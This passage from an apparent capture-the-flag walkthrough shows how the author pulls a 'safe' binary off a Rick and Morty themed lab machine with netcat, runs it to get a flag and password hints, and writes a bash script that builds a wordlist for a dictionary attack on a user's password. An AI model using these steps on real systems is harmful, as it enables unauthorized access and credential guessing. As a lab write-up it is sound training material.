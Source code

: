 Inside the path **/home/RickSanchez/RickSanchez/RICKS_SAFE/**, I found a binary called safe.

```console
[Summer@localhost home]$ cd RickSanchez/RickSanchez/RICKS_SAFE/
[Summer@localhost RICKS_SAFE]$ ls
safe
```

I transfer this to the attacking machine, I give execution permissions to the safe binary, and to execute it assign the password **131333** as parameter.

```console
[Summer@localhost RICKS_SAFE]$ nc -vln 3232 < safe 
```

```console
root@kali:~$ nc 192.168.179.148 3232 > safe
root@kali:~$ chmod 755 safe
root@kali:~$ ./safe 131333
decrypt:        FLAG{And Awwwaaaaayyyy we Go!} - 20 Points

Ricks password hints:
 (This is incase I forget.. I just hope I don't forget how to write a script to generate potential passwords. Also, sudo is wheely good.)
Follow these clues, in order


1 uppercase character
1 digit
One of the words in my old bands name.  @
```

## Privilege Escalation
### Dictionary Attack

In the results we can see the 20pts flag that adds up to 100pts, and the specifications to generate the password for the Rick user, searching in google I found the band **[The Flesh Curtains](https://rickandmorty.fandom.com/wiki/The_Flesh_Curtains)** to wich Rick belonged, I developed a simple bash script to generate the possible passwords, and execute it.


```console
#!/bin/bash

band='The Flesh Curtains'

for l in {A..Z}; do
        for n in {0..9}; do
           for w in $band; do
                   echo $l$n$w
           done
        done
done > wordlist.txt
```
